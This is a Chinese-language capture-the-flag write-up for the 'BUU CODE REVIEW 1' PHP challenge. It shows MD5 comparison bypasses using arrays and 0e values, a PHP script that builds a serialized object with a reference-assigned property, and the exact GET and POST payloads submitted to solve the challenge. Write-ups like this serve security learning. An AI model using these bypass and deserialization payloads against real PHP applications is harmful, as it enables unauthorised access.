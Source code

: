 # PHP代码审计----（一）

> 题目
> BUU CODE REVIEW 1

打开题目上面显示了PHP源码
![image](https://github.com/uicciu/image/blob/main/php%E5%AE%A1%E8%AE%A1.png)

能看懂这是在传参，应用了GET POST 两种方法 其中还涉及MD5绕过-----这是我能看懂的，上边那一坨是看不懂的

在url输入-----？pleaseget=1
![image](https://github.com/uicciu/image/blob/main/php%E5%AE%A1%E8%AE%A12.png)

很显然没有什么变化

再用hacker插件POST传参

这里我只传了我会的MD5绕过

* MD5绕过
有两种情况

1）MD5无法识别数组，可以传递一个数组，则MD5会返回一个NULL 空 这样两边为空，还是相等的

2）MD5中如果输入0exxx 则会认为是科学计数法 0*10（n） 也是恒为零

> 因为不会了 去看别人思路



【引用】

    GET提交：?pleaseget=1

    POST提交的第一部分：pleasepost=2&md51[]=1&md52[]=2

    POST提交的第二部分：一个BUU类的实例化对象，且两个属性值在经过$this->correct = base64_encode(uniqid());这个之后，依然全等，那么这里我们可以把变化的$correct属性的引用赋值   给属性$input

    //uniqid() 函数基于以微秒计的当前时间，生成一个唯一的 ID。

    //传值赋值：变量默认总是传值赋值。那也就是说，当将一个表达式的值赋予一个变量时，整个原始表达式的值被赋值到目标变量。这意味着，例如，当一个变量的值赋予另外一个变量时，改变其中一个变量的值，将不会影响到另外一个变量。

    //引用赋值：PHP 也提供了另外一种方式给变量赋值：引用赋值。这意味着新的变量简单的引用（换言之，“成为其别名” 或者 “指向”）了原始变量。改动新的变量将影响到原始变量，反之亦然。
   



【编写代码】

    <?php

    class BUU{

    public $correct = "";

    public $input = "";

    }

    $chen = new BUU();

    $chen->input=&$chen->correct;

    $chen = serialize($chen);

    echo $chen."<br />";

    //O:3:"BUU":2:{s:7:"correct";s:0:"";s:5:"input";R:2;}

![image](https://github.com/uicciu/image/blob/main/php%E5%AE%A1%E8%AE%A13.png)

【提交】

    GET部分：?pleaseget=1
    
    POST部分：pleasepost=2&md51[]=1&md52[]=2&obj=O:3:"BUU":2:{s:7:"correct";s:0:"";s:5:"input";R:2;}
    
       
![image](https://github.com/uicciu/image/blob/main/php%E5%AE%A1%E8%AE%A14.png)
